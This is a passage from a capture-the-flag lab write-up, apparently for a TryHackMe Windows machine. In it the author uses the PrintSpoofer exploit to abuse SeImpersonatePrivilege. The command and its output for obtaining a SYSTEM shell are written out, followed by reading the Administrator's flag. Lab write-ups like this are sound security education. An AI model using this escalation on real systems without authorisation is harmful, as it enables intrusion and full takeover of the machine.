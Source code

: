 ```
```

That `SeImpersonatePrivilege` thing looks interesting, after searching a bit i found this exploit: https://github.com/itm4n/PrintSpoofer. I uploaded it to the machine and executed it:

```
C:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd
PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

And yep, a `system` shell cool.

### Root flag

Just execute `more C:\Users\Administrator\Desktop\root.txt`:
```
THM{*******************************}
```
